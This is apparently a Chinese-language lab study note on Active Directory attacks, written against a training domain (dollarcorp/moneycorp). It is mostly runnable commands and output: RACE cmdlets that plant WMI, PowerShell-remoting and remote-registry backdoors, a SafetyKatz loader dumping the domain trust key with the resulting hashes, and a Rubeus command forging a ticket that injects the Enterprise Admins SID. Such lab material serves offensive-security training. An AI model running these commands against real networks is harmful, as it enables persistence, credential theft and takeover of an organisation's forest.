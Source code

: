 >[!warning]
>RACE is a PowerShell module for executing ACL attacks against Windows targets and Active Directory. RACE can be used for persistence and on demand privilege escalationon Windows machines.
- RACE.ps1 : https://github.com/samratashok/RACE
``` powershell
. C:\AD\Tools\RACE.ps1
```

### 利用WMI存取
``` powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
- 遠端程式碼執行
``` powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```
### 利用PowerShell remoting存取
``` powershell
Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```
- 遠端程式碼執行
``` powershell
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
### 撈取hash
``` powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee studentx -Verbose
```
``` powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```
## Domain Trust
>[!NOTE]
>Domain Admin可以撈到 domain trust key

- 利用SafetyKatz dump出domain trust key
``` 
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```
```
mimikatz #  **lsadump::evasive-trust /patch**
Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-
3726368948-3917688648)
Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-335606122-960912869-3279953914)
[ In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
 * 2/24/2023 1:11:33 AM - CLEAR - 79 d9 90 1f 7c db 09 b7 65 a0 e5 e4 50
03 35 8b 99 fb eb bb e7 ba 54 89 b7 b2 f4 fc
 * aes256_hmac
34f94d19178a75cb04b9c10e657623c5ac9074fbc7fcf4e20be8527b77407243
 * aes128_hmac 40856eb80d3323adf23a3b7faad3c180
 * rc4_hmac_nt  132f54e05f7c3db02e97c00ff3879067
```
- 製作金票眷
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:132f54e05f7c3db02e97c00ff3879067 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
這邊書輸入的`/sids`是額外附加 SID（這裡是 Enterprise Admins 群組 SID），為了讓票裡的使用者同時具有額外群組身分，`S-1-5-21-335606122-960912869-3279953914`是`MONEYCORP.LOCAL`(目標 parent)的SID，519是Enterprise Admins的RID，`/ldap`是指示 Rubeus 從 LDAP 取一些資訊自動補齊。
